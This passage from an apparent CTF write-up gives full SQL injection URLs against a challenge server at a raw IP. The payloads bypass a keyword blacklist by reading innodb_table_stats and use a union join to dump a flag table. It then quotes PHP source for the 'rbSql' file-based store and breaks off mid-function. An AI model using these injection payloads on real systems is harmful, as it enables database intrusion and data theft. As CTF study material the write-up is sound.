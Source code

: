 ```html
http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%23
```

Then we have to get the table name and column name in database. Since key words "information" and "schema" are in black list, we use `innodb_table_stats` to get the table name:

```html
http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%3C0%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%23
```

At last, we use `join` to get flag:

```html
http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0A)%3C0%20union%20(select%201,t.*%20from%20mysql.user%20join%2041786c497656426a6149_flag%20t)%23
```

## rbSql

We can also get the source code of this challenge too, which is a data storage system written in php. The rbSql will store user information in file and read it again when user login and then check if user is admin.

```php
  elseif($page == "me"){
    echo "<p>uid : {$_SESSION['uid']}</p><p>level : ";
    if($_SESSION['lvl'] == 1) echo "Guest";
    elseif($_SESSION['lvl'] == 2) echo "Admin";
    echo "</p>";
    include "dbconn.php";
    $ret = rbSql("select","member_".$_SESSION['uid'],["id",$_SESSION['uid']]);
    echo "<p>mail : {$ret['1']}</p><p>ip : {$ret['3']}</p>";
    if($_SESSION['lvl'] === "2"){
      echo "<p>Flag : </p>";
      include "/flag";
      echo "flag{XXXXXXXXXXXXXXXXXXXXXXXXXXXX}";
      rbSql("delete","member_".$_SESSION['uid'],["id",$_SESSION['uid']]);
    }
  }
```

If the user's `lvl` value is 2, we get the flag. So let's have a closer look at the data storage system:

```php
<?php
/*
Table[
  tablename, filepath
  [column],
  [row],
  [row],
  ...
rbSqlSchema[
  rbSqlSchema,/rbSqlSchema,
  ["tableName","filePath"],
  ["something","/rbSql_".substr(md5(rand(10000000,100000000)),0,16)]
]
*/

define("STR", chr(1), true);
define("ARR", chr(2), true);
define("SCHEMA", "../../rbSql/rbSqlSchema", true);

function rbSql($cmd,$table,$query){
	switch($cmd){
```